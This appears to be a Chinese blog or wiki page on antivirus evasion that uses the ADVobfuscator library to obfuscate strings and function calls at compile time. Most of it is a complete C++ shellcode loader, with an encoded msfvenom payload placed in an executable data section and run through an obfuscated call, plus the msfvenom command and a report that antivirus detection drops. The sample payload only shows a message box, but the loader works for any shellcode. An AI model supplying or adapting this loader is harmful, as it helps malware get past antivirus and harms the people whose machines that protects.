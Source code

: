 # 编译时混淆字符串&函数调用

## 简介

在做免杀的时候发现了一个宝藏项目[ADVobfuscator](https://github.com/andrivet/ADVobfuscator)，这个项目能在编译时混淆函数调用和字符串，通常字符串会被杀毒软件作为比较典型的特征，如果我们能在编译时混淆这些东西，那么会对杀毒软件判断的静态特征产生很大程度的避免，同时混淆函数调用也能对行为查杀产生一定程度的影响。

mimikatz特征：

![](../.gitbook/assets/image%20%28129%29.png)

## 使用

在配置完之后，我们可以直接查看混淆和无混淆编译出来后的结果。

未混淆：

```text
printf("hello world\n");
```

![](../.gitbook/assets/image%20%28133%29.png)

混淆:

```text
 printf(OBFUSCATED("hello world\n"));
```

![](../.gitbook/assets/image%20%28131%29.png)

同样我们可以同类似的方法来测试函数混淆，使用被杀烂的加载器编写方式，然后去在线查毒对比效果。

```text

#if !defined(DEBUG) || DEBUG == 0
#define BOOST_DISABLE_ASSERTS
#endif

#pragma warning(disable: 4503)

#define ADVLOG 1

#include "Log.h"
#include "MetaString.h"
#include "ObfuscatedCall.h"
#include "ObfuscatedCallWithPredicate.h"
#include <Windows.h>
#include <stdio.h>

#pragma comment(linker, "/section:.data,RWE")   
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")  
#pragma comment(linker, "/INCREMENTAL:NO") 
using namespace std;
using namespace andrivet::ADVobfuscator;

char shellcode[] = "\xeb\x23\x5b\x89\xdf\xb0\xb5\xfc\xae\x75\xfd\x89\xf9\x89\xde"
"\x8a\x06\x30\x07\x47\x66\x81\x3f\x2a\x1d\x74\x08\x46\x80\x3e"
"\xb5\x75\xee\xeb\xea\xff\xe1\xe8\xd8\xff\xff\xff\x11\xb5\xfa"
"\x32\x4a\x98\xce\xa1\xca\xed\xbf\x64\xec\x98\xe8\x98\xcf\x9b"
"\x17\x21\x16\x56\x77\x90\x2e\x0c\x41\x65\x19\x57\x91\x2f\xca"
"\x64\xff\xfa\xfb\xee\xf0\xf9\xc9\xee\xee\xee\x1e\xca\xc7\xf5"
"\x85\xc7\x6a\x3a\xea\x2f\xcc\xac\x69\x2f\xd7\x7a\x95\x6f\x2e"
"\x95\x68\x12\x95\x68\x02\x95\x58\x16\x95\x60\x3e\x95\x28\x26"
"\x51\x06\x6b\xed\x47\x1f\xcf\xe1\xff\x7e\x95\x72\x3a\x3a\x95"
"\x5b\x22\x95\x4a\x36\x66\x1f\xf4\x95\x54\x06\x95\x44\x3e\x1f"
"\xf5\xfd\x2a\x57\x95\x2a\x95\x1f\xf0\x2f\xe1\x2f\xde\xe2\xb2"
"\x9a\xde\x6a\x19\xdf\xd1\x13\x1f\xd9\xf5\xea\x25\x62\x3a\x36"
"\x6b\xff\x95\x44\x3a\x1f\xf5\x78\x95\x12\x55\x95\x44\x02\x1f"
"\xf5\x95\x1a\x95\x1f\xf6\x97\x5a\x3a\x02\x7f\xdd\xac\x16\x37"
"\xca\x97\xfb\x97\xdc\x76\x90\x50\x10\xf2\x4c\xf6\x81\xe1\xe1"
"\xe1\x97\x5b\x1a\xa5\x60\xc6\xfc\x6d\x99\x02\x3a\x4c\xf6\x90"
"\xe1\xe1\xe1\x97\x5b\x16\x76\x72\x72\x3e\x5f\x76\x2d\x2c\x30"
"\x7a\x76\x6b\x6d\x7b\x6c\x2e\xc5\x96\x42\x3a\x14\x97\xf8\x48"
"\xe1\x4b\x1a\x97\xdc\x4e\xa5\xb6\xbc\x53\xa2\x99\x02\x3a\x4c"
"\xf6\x41\xe1\xe1\xe1\x76\x71\x66\x46\x3e\x76\x7f\x79\x7b\x5c"
"\x76\x53\x7b\x6d\x6d\x2f\xc5\x96\x42\x3a\x14\x97\xfd\x76\x46"
"\x3e\x3e\x3e\x76\x53\x4d\x58\x3f\x76\x6c\x71\x73\x3e\x76\x71"
"\x32\x3e\x78\x76\x56\x7b\x72\x72\x2f\xd7\x96\x52\x3a\x0e\x97"
"\xff\x2f\xcc\x4c\x4d\x4f\x4c\xe1\xce\x2f\xde\x4e\xe1\x4b\x16"
"\x0c\x41\x2a\x1d";

void exec()
{
    ((void(*)(void)) & shellcode)();
}

int main(int, const char* [])
{
    OBFUSCATED_CALL0(exec);
    //exec();
    return 0;
}

```

![](../.gitbook/assets/image%20%28134%29.png)

```text
sfvenom -p windows/messagebox -e x86/xor_dynamic -i 2 -f c
```

查杀效果：

![](../.gitbook/assets/image%20%28128%29.png)

![](../.gitbook/assets/image%20%28132%29.png)

对于这种被杀烂的编写方式还是有比较明显的免杀效果的。

